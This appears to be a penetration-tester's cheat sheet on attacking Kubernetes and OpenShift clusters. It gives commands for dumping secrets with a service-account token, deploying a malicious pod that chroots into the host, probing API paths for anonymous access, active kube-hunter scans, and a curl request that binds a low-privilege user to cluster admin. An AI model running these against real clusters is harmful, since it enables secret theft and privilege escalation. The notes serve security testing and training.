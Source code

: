 # Containerization / Orchestration




## Kubernetes

- [https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes](https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes)



### kubectl

- [https://kubernetes.io/ru/docs/tasks/tools/install-kubectl/](https://kubernetes.io/ru/docs/tasks/tools/install-kubectl/)

Get `kubectl`:

```bash
curl -LO https://storage.googleapis.com/kubernetes-release/release/`curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt`/bin/linux/amd64/kubectl
chmod +x ./kubectl
sudo mv ./kubectl /usr/local/bin/kubectl
kubectl version --client
```

Basic authenticated enumeration (the service account token from `/run/secrets/kubernetes.io/serviceaccount/token` can be parsed at [jwt.io](https://jwt.io/)):

```
$ kubectl auth can-i --list
$ kubectl get namespaces
$ kubectl auth can-i --list -n <NAMESPACE>
$ kubectl get pods -n <NAMESPACE>
$ kubectl describe pods <POD> -n <NAMESPACE>
$ kubectl get secrets -n <NAMESPACE>
$ kubectl describe secrets -n <NAMESPACE>
$ kubectl --token=$(cat token) auth can-i create pods
```



### Malicious Pods

- [https://github.com/BishopFox/badPods](https://github.com/BishopFox/badPods)

Deploy a malicious pod:

```
$ kubectl apply -f evilpod.yml
$ kubectl exec --stdin --tty -it evilpod -- chroot /hostfs bash
```

### Kubernetes API Server Paths

Check these kube-apiserver paths for anonymous access (stolen from [HackTricks](https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes/pentesting-kubernetes-from-the-outside#kube-apiserver-anonymous-access)):

```
/api
/api/v1
/apis
/apis
/apis/admissionregistration.k8s.io
/apis/admissionregistration.k8s.io/v1beta1
/apis/apiextensions.k8s.io
/apis/apiextensions.k8s.io/v1beta1
/apis/apiregistration.k8s.io
/apis/apiregistration.k8s.io/v1
/apis/apiregistration.k8s.io/v1beta1
/apis/apps
/apis/apps/v1
/apis/apps/v1beta1
/apis/apps/v1beta2
/apis/authentication.k8s.io
/apis/authentication.k8s.io/v1
/apis/authentication.k8s.io/v1beta1
/apis/authorization.k8s.i
/apis/authorization.k8s.io/v1
/apis/authorization.k8s.io/v1beta1
/apis/autoscaling
/apis/autoscaling/v1
/apis/autoscaling/v2beta1
/apis/batch
/apis/batch/v1
/apis/batch/v1beta1
/apis/certificates.k8s.io
/apis/certificates.k8s.io/v1beta1
```



### Tools


#### kube-hunter

- [https://github.com/aquasecurity/kube-hunter](https://github.com/aquasecurity/kube-hunter)

```
$ kube-hunter --cidr 10.0.1.0/24 --active
```



### Training Labs

- [https://www.bustakube.com/](https://www.bustakube.com/)
- [https://0xdf.gitlab.io/2021/09/04/htb-unobtainium.html](https://0xdf.gitlab.io/2021/09/04/htb-unobtainium.html)

{% embed url="https://youtu.be/UgHt_Y3vdNg" %}




## Red Hat OpenShift

- [https://github.com/cherkavi/cheat-sheet/blob/master/openshift.md](https://github.com/cherkavi/cheat-sheet/blob/master/openshift.md)

Grant a low-priv user admin's privileges across the cluster [via REST API](https://access.redhat.com/solutions/5492301):

```json
curl -k -X POST 'https://cluster.megacorp.local:8443/apis/rbac.authorization.k8s.io/v1/clusterrolebindings' \
  -H 'Authorization: Bearer <TOKEN>'  \
  -H 'Accept: application/json'       \
  -H 'Content-Type: application/json' \
  -d'
{
  "kind": "ClusterRoleBinding",
  "apiVersion": "rbac.authorization.k8s.io/v1",
  "metadata": {
    "name": "pwned",
    "creationTimestamp": null
  },
  "subjects": [
    {
      "kind": "User",
      "apiGroup": "rbac.authorization.k8s.io",
      "name": "snovvcrash@megacorp.local"
    }
  ],
  "roleRef": {
    "apiGroup": "rbac.authorization.k8s.io",
    "kind": "ClusterRole",
    "name": "admin"
  }
}'
```
